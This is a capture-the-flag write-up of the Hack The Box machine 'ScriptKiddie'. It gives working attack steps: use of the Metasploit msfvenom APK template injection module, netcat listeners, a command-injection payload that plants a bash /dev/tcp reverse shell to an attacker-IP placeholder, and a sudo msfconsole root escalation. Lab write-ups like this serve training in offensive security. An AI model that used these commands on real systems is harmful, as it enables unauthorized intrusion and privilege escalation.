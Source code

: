 # ScriptKiddie
![banner](src/banner.png)

|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://raw.githubusercontent.com/f4T1H21/f4T1H21/main/support.png" height="40" alt="Support">
  </img>
</a>

## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``

![nmap](src/nmap.png)

As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.

![site](src/site.png)

It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD

![site](src/search.png)

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```
![msfapk](src/msfapk.png)

We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```
![nc](src/nc.png)

Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.

![payloadapkset](src/payloadapkset.png)

**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)

![payloadapkset](src/gotusershell.png)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn

![payloadapkset](src/nmapaspwn.png)

As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```

![gotshellaspwn](src/gotshellaspwn.png)

**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.

![sudo-l](src/sudo-l.png)

This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```
![root](src/root.png)

***And we sucessfully pwned the machine..***

![pwned](/src/gifs/pwned.gif)

## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://raw.githubusercontent.com/f4T1H21/f4T1H21/main/support.png" height="40" alt="Support">
  </img>
</a>

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***
